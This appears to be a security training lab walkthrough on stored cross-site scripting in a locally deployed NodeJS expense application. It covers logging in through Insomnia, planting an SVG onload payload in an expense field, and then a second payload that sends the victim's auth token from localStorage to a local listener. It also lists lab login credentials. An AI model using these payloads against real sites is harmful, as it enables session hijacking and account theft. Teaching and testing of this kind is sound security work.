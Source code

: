 ## Cross-Site Scripting - Persistent
## Pre-Processing
* Start the NodeJS Stack by running the following commands:
	* Open up the Terminal
	* If you have already started Node, then you dont need to do the next step
	* Command: `start_node.sh`
	* It will run a full stack deployment of a Front-end service, a Web Service and a Datbase. The Front-end service runs on port 5000, the Backend Web Service runs on port 3000. We will be using the Web Service (3000) for this exercise
	* Open the application `Insomnia` on your Desktop. This allows you to interact with the Web Service. Its an HTTP Client

### Exercise Instruction
First, we need to create an expense, and embed a cross site scripting payload in the one of the fields of the expense object.

1. For that, we need to login as user. In the sidebar you will find an option "Login User"

![Login User](../img/login_user.png)

2. he request should already be filled out with user, Maya's email and password. You can just hit send on that requests

![Send Request](../img/send_insomnia.png)

3. If you are successfully logged in, you should get an 200 Response with an Authorization Token. Copy that token and paste it in Mousepad/etc

![Manager Token](../img/token_200_manager.png)

4. Now in the sidebar, go to the `Create Expense` Request. Ensure that you add the copied Authorization Token in Header Tab in the Request page

![Add Auth Token to Request](../img/auth_token_header.png)

5. In the JSON Tab, you can start making some edits to the JSON Payload. In the reason field, add the following payload to test for Cross-Site Scripting

`<svg onload=alert(localStorage.getItem('token'))></svg>`

Now, click Send. If all goes well, the expense should have been created in Maya william's account.

![XSS Request](../img/xss_request.png)

Now open Firefox (Web Browser) from the Main Menu. Goto: `http://localhost:5000`

Login with Maya's email and password: `maya.williams@widget.co` and password: `superman123`

In the top bar, you should find "Manage Expenses". Click on that. Once you do, shortly, you should see that a JavaScript alert is fired at you with the Authorization Token of Maya's. This indicates that the attack has worked and the application is vulnerable to Cross Site Scripting

### Token Hijacking with Cross-Site Scripting
Let's repeat Steps 1 - 4 from the previous exercise.

However, for Step 5 the XSS Payload will change to this:

`<svg onload=\"var xhr = new XMLHttpRequest();xhr.open('GET', 'http://127.0.0.1:8000?token='+localStorage.getItem('token'), true);xhr.send();\"/>`

Before you open Firefox and repeat the steps from the previous exercise. Open up another terminal window and type the following command into it.

`python -m SimpleHTTPServer`

Leave this terminal open

Now repeat the steps from the Firefox Browser and observe the results. Once the page loads, go back to the terminal window to see if the token has been captured

### Close Lab
* On the terminal that you ran the `start_node.sh` run `Ctrl + C` to shutdown the app.
* Now run `stop_node.sh` to gracefully bring down the stack.
